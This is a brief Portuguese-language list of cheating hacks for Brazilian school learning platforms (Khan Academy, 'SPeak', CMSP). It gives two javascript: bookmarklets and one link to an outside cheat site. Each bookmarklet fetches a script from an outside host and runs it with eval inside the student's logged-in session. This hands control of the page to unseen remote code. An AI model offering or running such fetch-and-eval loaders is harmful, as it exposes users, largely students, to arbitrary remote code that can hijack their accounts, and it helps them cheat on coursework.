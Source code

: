 # Leia com atenção
# Esses hacks não funciona em rede nacional (por exemplo:SEDUC_TABLET, SEDUC_MAQ entre outras)



Khan academy 

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

SPeak (não funcionando)

javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))


CMSP(não faz redação nem redasp)

https://cmspcheeto.squareweb.app/

